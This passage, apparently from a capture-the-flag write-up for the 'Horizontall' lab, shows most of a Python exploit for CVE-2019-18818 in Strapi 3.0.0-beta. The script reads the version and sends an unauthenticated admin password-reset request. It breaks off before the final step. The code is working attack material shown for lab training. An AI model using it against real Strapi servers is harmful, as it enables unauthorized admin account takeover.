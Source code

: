<img src = "/assets/images/img-horizontall/captura17.png">
</p>

The exploit:

```python
# Exploit Title: Strapi 3.0.0-beta - Set Password (Unauthenticated)
# Date: 2021-08-29
# Exploit Author: David Anglada [CodiObert]
# Vendor Homepage: https://strapi.io/
# Version: 3.0.0-beta
# Tested on: Linux
# CVE: CVE-2019-18818

#!/usr/bin/python

import requests
import sys
import json

userEmail = "admin@horizontall.htb"
strapiUrl = "http://api-prod.horizontall.htb"
newPassword = "code12345"

s = requests.Session()

# Get strapi version
strapiVersion = json.loads(s.get("{}/admin/strapiVersion".format(strapiUrl)).text)

print("[*] strapi version: {}".format(strapiVersion["strapiVersion"]))

# Validate vulnerable version
if strapiVersion["strapiVersion"].startswith('3.0.0-beta') or strapiVersion["strapiVersion"].startswith('3.0.0-alpha'):
	# Password reset
	print("[*] Password reset for user: {}".format(userEmail))
	resetPasswordReq={"email":userEmail, "url":"{}/admin/plugins/users-permissions/auth/reset-password".format(strapiUrl)}
	s.post("{}/".format(strapiUrl), json=resetPasswordReq)
```
